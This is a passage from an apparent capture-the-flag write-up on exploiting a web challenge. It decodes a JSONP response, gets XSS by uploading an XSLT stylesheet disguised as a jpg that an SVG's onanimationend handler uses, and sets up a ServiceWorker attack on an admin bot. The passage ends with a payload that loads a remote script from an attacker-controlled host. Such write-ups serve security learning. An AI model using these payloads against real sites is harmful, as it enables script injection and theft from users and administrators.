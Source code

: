 content:

```bash
$ echo 'cGFnZWxvYWQoJ0NvbnRyb2wgY2VudGVyIGFjY2VzcyByZXF1aXJlIGEgdmFpbGQgc2VjcmV0IGtleS4gWW91IGVudGVyZWQgYSBpbnZhaWxkIHNlY3JldCEnKQ==' | base64 -d
pageload('Control center access require a vaild secret key. You entered a invaild secret!')
```

so we can use the jsonp to accessing cross-site data, but the secret is invaild.

3.Now we need to consider svg+xss to get the secret, testing found that the `script` and `onload` is disabled here.

In reference[2], the author find `onanimationend` attribute to execute the code, and use the [xslt transforming xml to xhtml](https://developer.mozilla.org/en-US/docs/Web/XSLT/Transforming_XML_with_XSLT), make the browser parse directly into html pages when accessing svg:

```xml
<!-- xss.jpg -->
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<html>
<head><style>@keyframes x{}</style></head>
<body>
<svg style="animation-name:x" onanimationend="alert(1)"></svg>
</body></html>
</xsl:template>
</xsl:stylesheet>
```

upload it as jpg and get the path, then upload the following svg:

```xml
<!-- xss.svg -->
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="/upload/0bbeafb5a94d86bcbd9fa7d69bb42098"?>
<svg xmlns="http://www.w3.org/2000/svg">
</svg>
```

and refresh `/user` page we can see the pop-up :)

![](https://i.imgur.com/FPB9b8t.png)

4.In the `/submit` page, we can submit feedback with a link which will accessed by admin bot. Following the hints, the bot will open the link we submitted first, then `flaaaaaaaag.cubestone.com`.

We have xss and jsonp, this means that we can intercept requests from the flaaaaaaaaaag site through xss cross-domain implantation of ServiceWorker. Refer: [XSS With Service Worker](https://lightless.me/archives/XSS-With-Service-Worker.html)

Modify the contents of `xss.jpg`:

```html
<svg style="animation-name:x" onanimationend="s=createElement('scr'+'ipt');body.appendChild(s);s.src='https://192.168.200.1:8000/xss.js';"></svg>
```
